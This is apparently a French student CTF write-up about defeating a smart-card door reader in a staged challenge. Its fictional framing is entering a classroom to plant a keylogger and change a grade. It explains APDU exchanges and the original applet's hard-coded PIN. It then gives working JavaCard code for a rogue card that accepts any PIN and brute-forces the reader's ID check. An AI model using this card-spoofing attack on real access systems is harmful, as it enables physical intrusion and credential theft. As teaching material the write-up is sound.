

# Attaque sur le lecteur de carte

Somaire:

1. [Rappel du sujet](#1-rappel-du-sujet)
2. [Attaque sur le lecteur de carte](#2-attaque-sur-le-lecteur-de-carte)
	1. [Compréhension du code de la carte](#21-comprehension-du-code-de-la-carte)
		1. [Fonctionnement de la communication entre terminal et carte à puce](#211-fonctionnement-de-la-communication-entre-terminal-et-carte-a-puce)
		2. [Identification du code de la carte](#212-identification-du-code-de-la-carte)
	2. [Mise en place de l'envirronement de développement JavaCard](#22-mis-en-place-de-lenvirronement-de-developpement-javacard)
	3. [Pret a ouvrir cette porte](#23-pret-a-ouvrir-cette-porte)
		1. [Création du code de brutforce en JavaCard](#231-creation-du-code-de-brutforce-en-javacard)
		2. [Transmitions du code dans la carte à puce](#232-transmitions-du-code-dans-la-carte-a-puce)
		3. [Ouverture de la porte](#233-ouverture-de-la-porte)

## 1. Rappel du sujet

***La mission est d'entrer dans la salle des 4AS (option à l'INSA CVL en STI) afin de pouvoir brancher un Keylogger sur la machine de l'enseignant et pouvoir récupérer son mot de passe pour pouvoir changer sa note obtenue et avoir la moyenne. Comme vous êtes dans l'option 2SU, vous avez une porte qui mène directement dans la salle des 4AS, mais cette enseignant, suite à des problèmes entre des éleves à mis en place un système de carte surveillé par une caméra pour que seulement les professeurs puissent passer par la porte.***

***Pour pouvoir ouvrir la porte, il faut utiliser une carte avec le lecteur de carte. L'ouverture de la porte se fait que lorsque la carte est reconnue, que personnes n'est devant la caméra, qu'il n'y a pas de coupure réseau.***

Maintenant que nous avons la possibilité de passer devant la caméra sans être détecté, nous devons maintenant trouver un moyen d'ouvrir la porte qui s'active à l'aide d'une carte à puce. Dans cette étapes, nous avons réussie à obtenir le code d'une carte utilisé par un anseignant. Cette dernière carte à étais désactivé ce qui rend le code inutile en l'état. Il faut donc trouver un moyen d'exploiter ce code pour pouvoir ouvrir la porte.

## 2. Attaque sur le lecteur de carte

### 2.1. Compréhension du code de la carte

Nous allons observer la communication entre une carte à puce et un lecteur de carte, puis examiner le code d’une carte d’un ancien enseignant.

#### 2.1.1. Fonctionnement de la communication entre terminal et carte à puce

Nous allons simplifier la compréhension des communications entre les cartes à puce et les terminaux pour aborder ce challenge

Nous allons simplifier la compréhension des communications entre les cartes à puce et les terminaux pour aborder ce challenge

Dans ces interactions, le terminal agit comme un client interrogeant la carte, qui joue le rôle d’un serveur. Pour illustrer, lors d’un achat avec une carte bancaire, le terminal demande le code PIN, puis le transmet à la carte. C’est cette dernière qui vérifie si le code est correct et répond au client. Dans ce contexte, la carte est perçue comme un serveur. De plus, contrairement à un PC standard, la carte n’a pas de RAM ; la mémoire est sauvegardée. Ainsi, la carte peut reprendre l’exécution de son code et l’état des données après avoir été débranchée et reconnectée.

Le terme `applet` fait référence à un code présent dans la carte, et il doit être instancié pour pouvoir être exécuté. Cela permet d’avoir plusieurs instances d’un même applet en simultané.

Pour ce challenge, nous nous intéressons aux requêtes et réponses `APDU` qui facilitent la communication entre le client et le serveur. Une trame est structurée de la manière suivante :

```text
CLA INS P1 P2 LC --data-- LE
```

- CLA: permet de désigner l'applet avec lequel nous dialoguons.
- INS: permet de choisir une instruction dans l'applet
- P1 et P2: sont des paramètres que nous donnons celons l'instruction applet (si non nécéssaire, la valeur de P1 et P2 sont à 0x00)
- LC: permet de donner le nombre de donné présent dans la section --data--
- --data--: contient des données que nous pouvons transmettre à l'applet pour des données plus importante que P1 et P2
- LE: est le nombre d'octet que nous attendons recevoire. Si ne connaisons pas le nombre de donnée transmit, nous pouvons donnée `0x7F` qui permet de récupérer toute le buffer que la carte peut transmettre en une requête.

Par exemple, si nous avons une instance avec un identifiant `0x80`, une instruction pour vérifier un code PIN avec la valeur `0x22`, qui n’a pas de paramètres dans P1 et P2, mais qui prend le code dans les données (chaque chiffre du code est dans un octet différent) et ne retourne pas de données, nous aurons la requête `APDU` suivante (cet exemple sera
présent dans ce challenge) :

```text
0x80 0x22 0x00 0x00 0x04 0x01 0x02 0x03 0x04 0x00
CLA  INS  P1   P2   LC   ------ CODE ------- LE

Le code ici est 1234
```

Pour la réponse par le serveur est sous la forme:

```text
--data-- SW1 SW2
```

- --data--: est la donnée tranmit par le serveur en fonction de l'instruction
- SW1 et SW2: est le code de retour de l'exécution de la carte, l'objectif est d'obtenir `0X9000` pour ne pas avoir d'erreur sinon ... non il ne faut pas avoir autre chose, sinon il faut trouver le type de retour dans les documentations

Par rapport à notre exemple, la réponse que nous aurons:

```text
si la PIN est correcte:
  0x90 0x00
  SW1  SW2

si la réponse est incorrect:
  0x63 0x00
  SW1  SW2

  cela dépent le code retour dans le code cette valeur est utilisé dans le code de ce challenge
```

Pour conclure, les applets possèdent un `AID` pour les différencier dans une carte, et il y a également un `AID` lors de l’instanciation de l’applet.

#### 2.1.2. Identification du code de la carte

Nous pouvons observer le fichier .jcproject dans le projet JavaCard `.jcproject`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE properties SYSTEM "http://java.sun.com/dtd/properties.dtd">
<properties>
<comment>Java Card project properties</comment>
<entry key="door">0x01:0x02:0x03:0x04:0x05:0x06:0x07:0x08:0x09:0x00</entry>
<entry key="door.Door">0x01:0x02:0x03:0x04:0x05:0x06:0x07:0x08:0x09:0x00:0x01</entry>
</properties>
```

Ce fichier nous indique que l’applet a pour AID `0x01:0x02:0x03:0x04:0x05:0x06:0x07:0x08:0x09:0x00` et que l’instance a pour AID `0x01:0x02:0x03:0x04:0x05:0x06:0x07:0x08:0x09:0x00:0x01`.

Nous pouvons maintenant examiner le code pour comprendre son fonctionnement. Pour commencer, nous avons les déclarations suivantes :

```java
	private final static byte ID_CARD_CLA =(byte)0x80;
	
	private static final byte VALIDATE_PIN_INS = 0x22;
	private static final byte GET_ID_INS       = 0x23;
```

Cela nous permet de déterminer que le `CLA` de cette applet est `0x80`et nous avons deux instructions. La première instruction, qui permet de valider le code PIN, a la valeur `0x22`, et la seconde instruction, qui permet de récupérer un ID, a la valeur `0x23`.

Nous avons ensuite la méthode `process` qui permet de sélectionner la fonction adaptée en fonction de l'instruction sélectionnée.

```java
	public void validatePin(APDU apdu) {
		byte[] buffer = apdu.getBuffer();
		if(buffer[ISO7816.OFFSET_LC]==PIN_SIZE){
			apdu.setIncomingAndReceive();
			if(pin.check(buffer, ISO7816.OFFSET_CDATA,PIN_SIZE)==false)
				ISOException.throwIt(SW_VERIFICATION_FAILED);
		}else ISOException.throwIt(ISO7816.SW_WRONG_LENGTH);
	}
```

La méthode `validatePin` permet de vérifier le code PIN transmis. La carte transmet une erreur si le code ne correspond pas. En cas de validation du PIN, la carte transmet `0x9000`. Le code est transmis dans la trame avec la valeur de `LC` et non dans les paramètres `P1` et `P2`

```java
	public void getId(APDU apdu) {
		if(!pin.isValidated()) ISOException.throwIt(SW_PIN_VERIFICATION_REQUIRED);

		apdu.setOutgoing();
		apdu.setOutgoingLength((short) 1);
		apdu.sendBytesLong((byte[]) id, (short) 0, (short) 1);
	}
```

Enfin, la méthode `getId` permet de transmettre l’ID de la carte seulement lorsque le code PIN a été vérifié au préalable.

Avec ces éléments, nous pouvons donc déterminer que les requêtes APDU transmises par le lecteur de carte doivent être les suivantes :

```text
Requête APDU pour valider le code PIN:

	0x80 0x22 0x00 0x00 0x04 0x00 0x00 0x00 0x00 0x7F
	CLA  INS  P1   P2   LC   --------CODE------- LE

Reqyête APDU pour récupérer l'ID de la carte:

	0x80 0x23 0x00 0x00 0x00 0x7F
	CLA  INS  P1   P2   LC   LE
```

Pour l’ordre des applets des requêtes APDU, on peut déduire que la validation du code PIN doit être effectuée en premier, puis, s’il n’y a pas d’erreur, la récupération de l’ID de la carte peut suivre.

```java
	final static byte PIN_TRY_LIMIT = (byte) 0x03;
	private final static byte PIN_SIZE =(byte)0x04;

	private Door() {
		// initialisation du code pin de la carte
		pin = new OwnerPIN(PIN_TRY_LIMIT, MAX_PIN_SIZE);
		pin.update(new byte[]{0x01,0x05,0x08,0x03},(short) 0, PIN_SIZE);
		register();
	}
```

Il est également intéressant de noter que dans la méthode `Door`, le système de code PIN est limité à trois tentatives en cas d’erreur de code PIN, et que le code est constitué de quatre chiffres.

Avec ces informations, nous avons ce qu’il faut pour produire une carte qui permet d’ouvrir la porte. Maintenant, il faut mettre en place l’environnement de développement sur sa machine.

### 2.2. Mis en place de l'envirronement de développement JavaCard

Dans cette section, nous verrons comment mettre en place un environnement de développement pour programmer en `JavaCard` avec `Eclipse`. Pour ce faire, vous devezpréalablement installer `Eclipse`. La suite partira du principe que cela a été réalisé. Il est également nécessaire d’installer `openjdk`.

Pour débuter, vous devez installer les bibliothèques suivantes :
```bash
apt install -y libusb-1.0-0-dev libpcsclite1 pcscd pcsc-tools
```

Une fois l’installation effectuée, vous pouvez configurer `Java Card Development Kit 2.2.2` sur votre machine.  Pour ce faire, vous pouvez utiliser le fichier disponible dans le répertoire des ressources sous le nom de[`java_card_kit-2_2_2-linux.zip`](./ressources/java_card_kit-2_2_2-linux.zip), ou le télécharger depuis le site
d’Oracle via le lien [oracle.com](https://oracle.com/java/technologies/java-archive-downloads-javame-downloads.html#javacardkitv222).Procédez à la décompression de l’archive, puis accédez au dossier `java_card_kit-2_2_2-linux/java_card_kit-2_2_2/`. À cet endroit, vous trouverez plusieurs archives.Décompressez `java_card_kit-2_2_2-rr-bin-linux-do.zip` et, avec un terminal, rendez-vous dans le répertoire nouvellement extrait pour effectuer les opérations suivantes :

```bash
mkdir ~/jcdk/
cp -r . ~/jcdk/
cd ~/jcdk/bin
chmod +x *
```

Pour installer le plugin `Eclipse`. Le plugin est disponible dans les ressources [`eclipse-jcde-0.1.zip`](./ressources/eclipse-jcde-0.1.zip) ou bien disponible sur [sourceforge.net](https://sourceforge.net/projects/eclipse-jcde).

Décompressez l’archive et naviguez vers le répertoire extrait. Exécutez ensuite les commandes suivantes, ***en appliquant des changements celon les noms des répertoire de votre machine***

```bash
mv * ~/eclipse/java-2023-06/eclipse/dropins/
```

Installez le programme  `gp` qui permet d’interagir avec un lecteur de carte pour transmettre des codes. Vous pouvez utiliser le fichier des ressources [`gp.jar`](./ressources/gp.jar) ou le télécharger
depuis GitHub via le lien [github.com](https://github.com/martinpaljak/GlobalPlatformPro/releases/tag/v20.01.23), puis suivez les commandes suivantes.

```bash
cp gp.jar ~/jcdk/
```

À ce stade, le plugin est ajouté à `Eclipse`. Il faut maintenant apporter des modifications dans le fichier `~/.profile`:

```bash
# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/.local/bin" ]; then
	PATH="$HOME.local/bin:$PATH"
fi

# set JC_HOME, JAVA_HOME, PATH
export JC_HOME="$HOME/jcdk"
export JAVA_HOME=/usr/lib/jvm/java-17-openjdk-amd64 # a modifier celon la machine
export PATH="$PATH:$JAVA_HOME/bin:$JC_HOME/bin"
alias gp="java -jar $HOME/jcdk/gp.jar"
```

Une fois cela effectué, il faut exécuter la commande suivante :

```bash
source ~/.profile
```

A ce stade, nous pouvons vérifier l’installation des différents éléments. Pour cela, connectez un lecteur de carte à votre machine et effectuez les tests suivants :

Vérification de l’installation de JCDK :

```bash
$ pcsc_scan
PC/SC device scanner
V 1.6.2 (c) 2001-2022, Ludovic Rousseau <ludovic.rousseau@free.fr>
Using reader plug n play mechanism
Scanning present readers...
0: Feitian SCR301 00 00

Tue Jan 9 17:21:24 2024
 Reader 0: Feitian SCR301 00 00
  Event number: 0
  Card state: Card inserted,
  ATR: 3B 94 95 81 01 46 54 56 00 C5

...

```

Si un lecteur de carte est détecté, l’installation de JCDK et des différents drivers est
réussie.

Vérification de l’installation de gp :
```bash
$ gp --list
Warning: no keys given, using default test key 404142434445464748494A4B4C4D4E4F
ISD: A000000003000000 (OP_READY)
...

```

Cette commande permet de vérifier que gp fonctionne et affiche la liste des applets disponibles dans la carte à puce.

Vérification du plugin `Eclipse`:
Pour cela, ouvrez  `Eclipse`. Lors de la création d’un nouveau projet, assurez-vous d’avoir la possibilité de créer un projet `Java Card Project`.

Avec toutes ces étapes, si les tests des différentes installations fonctionnent, vous n’avez plus qu’à suivre l’étape suivante pour résoudre le challenge.

### 2.3. Pret a ouvrir cette porte

#### 2.3.1 Création du code de brutforce en JavaCard

Nous allons maintenant écrire le code permettant d’ouvrir la porte. Comme mentionné précédemment, le code dans la carte fournie comporte une vérification d’un code PIN, suivie de la demande d’un ID.

Ainsi, nous pouvons créer une carte qui possède les mêmes instructions, mais nous avons la possibilité de modifier le comportement de ces instructions sans altérer la réponse.

Dans ce contexte, peu importe le mot de passe fourni à la carte, la réponse sera toujours `0x9000`. En ce qui concerne l’ID, nous prévoyons de fournir l’ID `1`lors de la première invocation de cette instruction, puis d’incrémenter l’ID à chaque appel subséquent, facilitant ainsi une attaque par force brute sur les ID.

Dans le répertoire `srcs` se trouve le code permettant de réaliser une attaque par force brute sur la porte. Pour utiliser l’environnement que nous avons mis en place, nous allons expliquer étape par étape comment obtenir un fichier que nous pourrons transmettre à la carte afin de mener l’attaque par force brute sur les ID.

Pour commencer, il faut créez un nouveau projet dans `Eclipse`, en  sélectionnant `File > New > Other ...`. Dans la liste des projets disponibles, choisissez `Java Card > Java Card Project`. Nommez le projet  `BrutforceDoor`. Lorsque vous appuyez sur `Finish`, vous pouvez
rencontrer une erreur. Indiquez le chemin vers `JCDK` en cliquant sur `OK`. Une fenêtre s’ouvrira, choisissez le répertoire dans`$HOME/jcdk`, puis cliquez sur `Apply and Close`. Le projet sera alors créé.

Pour continuer, `clique droit sur le projet > Properties > Java Compiler` et cochez la case `Enable project specific setting`, puis modifiez le `Compiler compliance level` pour avoir la version `1.3`. Ensuite, cliquez sur `Apply and Close`.

Il ne reste plus qu’une étape avant de pouvoir créer le code du bruteforce. Dans le répertoire du projet, il y a un dossier qui se nomme `src`, `faite un clique droit dessue > New > Other > Java Card > Java Card Applet`. Ensuite, donnez-lui le nom de "BruteforceDoor" avec comme nom de package `brutforceDoor`. Il ne reste plus qu'à donner les `AID` trouvés précédemment. Pour cela `clique droit sur le package > Java Card Tools > Set Package AID`, puis donnez l'AID trouvé (par défaut, l'`AID` est le même, vous n'avez pas à le changer), puis `clique droit le le fichier java > Java Card Tools > Set Applet AID` puis donnez l'`AID` trouvé (pour celui-ci il faut changer le dernier octet en `0x01`).

Nous pouvons maintenant coder le brutforce. Le code est disponible [dans le répertoire srcs](./srcs/BrutforceDoor/src/brutforceDoor/BrutforceDoor.java). Nous allons visualiser les fonctions principales de ce code, car la base de ce code est la même que le code fourni.

Pour commencer, nous avons les déclarations suivantes.

```java
	private final static byte code_lock_id[] = {(byte)0x01, (byte)0x02, (byte)0x03, (byte)0x04};
	private final static byte code_reste_id[] = {(byte)0x04, (byte)0x03, (byte)0x02, (byte)0x01};
	
	private final static byte ID_CARD_CLA =(byte)0x80;
	
	private static final byte VALIDATE_PIN_INS = 0x22;
	private static final byte GET_ID_INS       = 0x23;

	private final static short SW_OK_PASSE_TOUT_VA_BIEN = (short)0x9000;
```

Les deux premières variables nous permettent de bloquer l’ID contenu dans la carte pour pouvoir réouvrir la porte de manière illimitée et de pouvoir également réinitialiser la carte et recommencer le bruteforce. Nous conservons les valeurs pour les instructions et le CLA de l’applet. Nous avons aussi un short avec la valeur `0x9000` qui sera utilisé lors de
la vérification du code PIN.

Le code contenu dans la méthode `process` reste exactement le même que le code d’origine. Nous allons maintenant visualiser les deux méthodes appelées par le terminal.

```java
	public void validatePin(APDU apdu) {
		byte[] buffer = apdu.getBuffer();
		byte[] code = {0x00, 0x00, 0x00, 0x00};
		short i;
		
		for (i=0; i < 4; i++)
			code[(short)i] = (byte)buffer[(short)((short)ISO7816.OFFSET_CDATA + (short)i)];
		
		if ((byte)code[0] == (byte)code_lock_id[0] &&
			(byte)code[1] == (byte)code_lock_id[1] &&
			(byte)code[2] == (byte)code_lock_id[2] &&
			(byte)code[3] == (byte)code_lock_id[3])
			lockId = true;
		
		if ((byte)code[0] == (byte)code_reste_id[0] &&
			(byte)code[1] == (byte)code_reste_id[1] &&
			(byte)code[2] == (byte)code_reste_id[2] &&
			(byte)code[3] == (byte)code_reste_id[3]) {
				lockId = false;
				id[0] = (byte)0x00;
		}
		
		ISOException.throwIt(SW_OK_PASSE_TOUT_VA_BIEN);
	}
```

Cette première méthode permet de vérifier si le code PIN est correct. Dans notre cas, nous validons toujours le code PIN. Cependant, lorsque nous recevons `1234`, nous bloquons l’incrémentation de l’id. En revanche, lorsque nous recevons `4321`, nous remettons l’id à
zéro et débloquons son incrémentation pour réinitialiser la carte.

```java
	public void getId(APDU apdu) {
		if (!lockId)
			id[0] = (byte)((byte)id[0] + (byte)1);
		
		apdu.setOutgoing();
		apdu.setOutgoingLength((short) 1);
		apdu.sendBytesLong((byte[]) id, (short) 0, (short) 1);
	}
```

Pour finir, la méthode `getId` va transmettre son id comme le code d’origine, à la différence que nous ne vérifions pas si le PIN a été déverrouillé. De plus, nous ajoutons 1 à l’id si l’incrémentation n’est pas verrouillée.

#### 2.3.2. Transmitions du code dans la carte à puce

Nous pouvons maintenant compiler ce code et le transférer dans la carte. Pour cela, nous allons faire `clique droit sur le package > Java Card Tools > Generate Script`. Cela générera un autre package appelé `brutforceDoor.javacard`, contenant différents fichiers, dont celui dont nous avons besoin : `brutforceDoor.cap`.

Il faut maintenant se rendre dans le répertoire contenant le fichier `brutforceDoor.cap` à l’aide d’un terminal, puis brancher le lecteur de carte à son PC et insérer la carte dans le lecteur de carte. Nous pouvons exécuter les commandes suivantes :



De cette manière, nous obtenons une instance qui contient l’`AID` que nous avons attribué, permettant à la carte de se comporter de manière normale du point de vue du terminal.

#### 2.3.3. Ouverture de la porte

Nous pouvons maintenant, munis de notre carte de bruteforce, ouvrir la porte. Pour cela, nous devons l’insérer dans le lecteur de carte disponible dans la Raspberry PI, puis reproduire les étapes suivantes (dans cet exemple, nous avons utilisé le même code qui se trouve dans la Raspberry PI mais compilé pour fonctionner sur un terminal. Pour ce faire,
vous pouvez aller dans le répertoire [../../srcs/rasp_protector/JavaCard/card_reader/](../../srcs/rasp_protector/JavaCard/card_reader/). Pour compiler pour un terminal, il faut appliquer les changements indiqués dans le Makefile) :


Nous avons donc tenté d’ouvrir la porte, obtenant l’erreur `Bad ID` car la carte valide le code PIN, jusqu’à ce que nous obtenions le message `Door open`, indiquant que nous avons le bon ID. Nous utilisons le code `1234` pour bloquer l’ID, ce qui nous permet de continuer à ouvrir la porte. Enfin, nous parvenons à réinitialiser la carte avec le code`4321`.

Nous avons donc réussi à ouvrir la porte et à s’introduire dans la salle que nous voulions accéder.
